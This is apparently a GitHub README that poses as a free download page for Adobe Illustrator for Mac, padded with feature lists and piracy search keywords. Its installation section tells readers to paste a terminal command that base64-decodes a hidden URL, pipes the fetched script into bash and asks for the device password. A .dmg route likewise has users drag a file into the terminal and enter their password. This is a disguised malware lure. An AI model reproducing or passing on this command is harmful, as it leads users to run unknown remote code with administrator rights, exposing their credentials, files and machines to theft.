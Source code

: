 # Illustrator for Mac

![Illustrator Logo](https://static.vecteezy.com/system/resources/thumbnails/056/850/858/small_2x/adobe-illustrator-logo-on-a-transparent-background-free-png.png)

---

## 📦 Download

[![⬇️ Download Now](https://img.shields.io/badge/Illustrator-Download%20%20-blue?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/illustrator)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🧠 What is Adobe Illustrator for Mac?

**Adobe Illustrator for Mac** is the go-to software for vector-based graphic design, specifically tailored for users of **macOS**. Whether you're designing logos, icons, illustrations, or user interfaces, Illustrator delivers a robust and professional-grade toolkit with full support for the latest **macOS** versions and **Apple Silicon (M1/M2/M3)** chips.

With powerful features like the **Pen Tool**, **Vector Brushes**, **Live Shapes**, and **Precise Typography Controls**, Illustrator allows you to create crisp, scalable graphics with pixel-perfect accuracy. It's widely used by designers, illustrators, typographers, UI/UX professionals, and digital artists around the world.

Illustrator for Mac is seamlessly integrated with **Adobe Creative Cloud**, enabling collaboration across devices and Adobe apps like Photoshop, InDesign, and After Effects. It’s optimized to deliver smooth performance, even on resource-heavy projects, thanks to its native support for Apple’s latest processors.

Whether you’re on a **MacBook Air**, **MacBook Pro**, **iMac**, or **Mac Studio**, Adobe Illustrator offers a powerful and flexible environment for all your vector graphic needs.

---

## 🌟 Features

- Advanced vector drawing tools with precision controls  
- Typography and font manipulation tools  
- Artboards for multi-page layout designs  
- Pattern and brush creation  
- Pixel preview and snap-to-pixel precision  
- Seamless integration with Adobe Creative Cloud  
- Native support for **M1/M2/M3** chips  
- Export assets for web, print, or app design  
- SVG, EPS, PDF, and AI file format support  
- Sync fonts, libraries, and assets across devices

---

![Illustrator Screenshot](https://i.ytimg.com/vi/HIhJJNHKoCg/hq720.jpg)

---

## 💻 Compatibility

- macOS **11.0 Big Sur** and newer  
- Compatible with **macOS Monterey**, **Ventura**, and **Sonoma**  
- Full native support for **Apple Silicon (M1, M2, M3)** and **Intel-based Macs**  
- Runs on **MacBook Air**, **MacBook Pro**, **Mac Mini**, **iMac**, and **Mac Studio**

---

## 🔑 Keywords

`illustrator mac`, `illustrator for macbook`, `illustrator for macbook air`, `illustrator macos`, `illustrator for mac free`, `illustrator 2022 mac`, `illustrator 2020 mac`, `illustrator cs6 for mac`, `illustrator for mac full`, `macbook illustrator free`, `illustrator for macbook pro`, `portable illustrator for mac`, `illustrator app for mac`, `illustrator mac m1`, `illustrator for mac m1`, `illustrator program for mac`, `illustrator on macbook pro`

---
